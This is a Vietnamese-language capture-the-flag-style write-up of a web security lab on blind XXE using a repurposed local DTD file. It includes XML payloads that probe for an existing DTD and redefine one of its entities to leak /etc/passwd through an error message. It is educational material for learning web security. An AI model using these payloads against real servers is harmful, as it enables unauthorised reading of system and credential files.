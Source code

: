 ```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.
```


Bài lab mô tả rằng chúng ta sẽ kích hoạt lỗi và trả về file passwd, tuy nhiên lần này chúng ta không tự viết file malicious DTD nữa mà sẽ sử dụng file có sẳn trên hệ thống.

Vì cuộc tấn công XXE này liên quan đến việc định vị lại một DTD hiện có trên hệ thống tệp máy chủ, yêu cầu chính là xác định vị trí tệp phù hợp. Điều này thực sự khá đơn giản. Vì 
ứng dụng trả về bất kỳ thông báo lỗi nào do trình phân tích cú pháp XML ném ra, bạn có thể dễ dàng liệt kê các tệp DTD cục bộ chỉ bằng cách cố gắng tải chúng từ bên trong DTD nội 
bộ.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_local_request.png?raw=true)

Chúng ta có thể kiểm tra thử xem file DTD có tồn tại hay không bằng cách chuyển payload này vào request và xem thử : 

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_local_check.png?raw=true)

Sau khi xác định được file DTD cần thiết chúng ta tiến hành exploit. Đối với kỹ thuật trước chúng ta chỉ có thể áp dụng với file malicious phía bên ngoài, lần này chúng ta khai thác bằng file local nên sẽ khác. CHúng ta dựa trên format sau để tạo payload phù hợp khi đã xác định được file DTD local:


```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

This DTD carries out the following steps:

 + Defines an XML parameter entity called local_dtd, containing the contents of the external DTD 
file that exists on the server filesystem.
 + Redefines the XML parameter entity called custom_entity, which is already defined in the external
DTD file. The entity is redefined as containing the error-based XXE exploit that was already described,
for triggering an error message containing the contents of the /etc/passwd file.
 + Uses the local_dtd entity, so that the external DTD is interpreted, including the redefined value of
the custom_entity entity. This results in the desired error message.

```

